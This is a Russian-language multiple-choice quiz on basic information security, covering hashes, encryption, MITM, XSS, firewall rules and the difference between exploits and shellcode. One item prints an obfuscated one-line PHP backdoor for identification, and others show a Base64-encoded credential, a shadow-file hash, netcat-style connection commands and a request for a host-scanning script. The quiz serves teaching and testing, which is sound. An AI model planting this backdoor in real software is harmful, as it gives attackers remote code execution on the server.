 ## Базовые вопросы по информационной безопасности

<ol>
<li type="1">Что это и где это можно увидеть?
~~~
RnJlZDpwNDU1MTIzNA==
~~~
  <ul>
  <li type="a">Хеш MD5 из файла /etc/passwd
  <li type="a">Хеш MD5 из файла /etc/shadow
  <li type="a">Строка Base64 из HTTP-сессии
  <li type="a">Строка Base64 из HTTP cookie
  </ul>

<li type=1>Что это и где это можно увидеть?
~~~
$6$8BxedHgytw0E6oTe$khJsZIJUZmiPpFpbDaJBhJrEp1DFyUDDrhkvuIHzb6sPPKiHrjBdINZe3sSb/y0wOpY4NICyGd5tXHhX3E.Z70
~~~
  <ul>
  <li type="a">Хеш MD5 без соли из файла /etc/passwd
  <li type="a">Хеш MD5 с солью из файлв /etc/shadow
  <li type="a">Хеш SHA1 без соли из файла /etc/shadow
  <li type="a">Хеш SHA512 с солью из файла /etc/shadow
  </ul>

<li type=1>Назовите пять способов подсоединиться к TCP портам 80 или 443.
<ul>
<li type="a">ncat localhost:80; nc localhost 80; echo /dev/tcp/localhost/80; ncat --ssl localhost:443; openssl s_client localhost:443
<li type="a">ncat localhost 80; nc localhost 80; cat /dev/tcp/localhost/80; ncat --ssl localhost 443; openssl s_client localhost 443
<li type="a">ncat localhost 80; nc localhost 80; echo >/dev/tcp/localhost/80; ncat --ssl localhost 443; openssl s_client -connect localhost:443
<li type="a">ncat localhost:80; nc localhost:80; echo >>/dev/tcp/localhost/80; ncat --ssl localhost:443; openssl s_client localhost:443
</ul>

<li type=1>Какова принципиальная разница между симметричным и асимметричным шифрованием?
<ul>
<li type="a">Участники симметричного шифрования используют разделяемый ключ, участники асимметричного шифрования знают закрытые ключи друг друга.
<li type="a">Участники симметричного шифрования используют открытый ключ, участники асимметричного шифрования знают закрытые ключи друг друга.
<li type="a">Участники симметричного шифрования используют закрытый ключ, участники асимметричного шифрования знают открытые ключи друг друга.
<li type="a">Участники симметричного шифрования используют разделяемый ключ, участники асимметричного шифрования знают открытые ключи друг друга.
</ul>

<li type=1>Возможно ли перехватить, просмотреть или модифицировать HTTPS трафик?
<ul>
<li type="a">Возможно перехватить, но невозможно просмотреть или модифицировать.
<li type="a">Возможно перехватить и просмотреть, но невозможно модицифировать.
<li type="a">Возможно перехватить и модифицировать, но невозможно просмотреть.
<li type="a">Возможно перехватить, просмотреть и модифицировать.
</ul>

<li type=1>Что такое MITM атака?
<ul>
<li type="a">Атака, в которой клиент общается с фальшивым сервером.
<li type="a">Атака, в которой сервер общается с фальшивым клиентом.
<li type="a">Атака, в которой клиент и сервер общаются с фальшивыми копиями друг друга.
<li type="a">Все варианты правильные.
<li type="a">Правильные варианты a. и b.
</ul>

<li type=1>Каковы возможные последствия атаки Cross-Site Scripting?
<ul>
<li type="a">Удаленный доступ к серверу.
<li type="a">Удаленный доступ к клиенту.
<li type="a">Перехват серверной сессии.
<li type="a">Перехват клиентской сессии.
</ul>

<li type=1>Что здесь неправильно?
~~~ sql
select * from *;
~~~
<ul>
<li type="a">Вместо первой звездочки нужно подставить имя поля.
<li type="a">Вместо второй звездочки нужно подставить имя таблицы.
<li type="a">Оба варианта правильные.
<li type="a">Оба варианта неправильные.
</ul>

<li type=1>Что это такое?
~~~ php
<?$_="";$_[+""]='';$_="$_"."";$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
~~~
<ul>
<li type="a">Отладочная строка C++.
<li type="a">Программный код на Perl.
<li type="a">Бекдор на PHP.
<li type="a">Бекдор на LUA.
</ul>

<li type=1>Какова разница между эксплоитом и шеллкодом?
<ul>
<li type="a">Эксплоит используется для передачи жертве полезного груза, шеллкод осуществляет атаку на жертву.
<li type="a">Эксплоит используется для атаки на жертву, шеллкод использцется для передачи полезного груза.
<li type="a">Эксплоит используется для атаки на жертву, шеллкод составляет полезный груз.
<li type="a">Эксплоит составляет полезный груз, шеллкод используется для доставки полезного груза.
</ul>

<li type=1>Какой принцип должен быть реализован в завершение цепочки правил межсетевого экрана?
<ul>
<li type="a">Implicit Allow
<li type="a">Explicit Deny
<li type="a">Implicit Deny
<li type="a">Explicit Allow
</ul>

<li type=1>Какие принципы защищенной архитектуры вы знаете?

<li type=1>Напишите скрипт на shell, выполнив которы на любой Linux-машине можно пручить список активных хостов в присоединенной сети класса C.
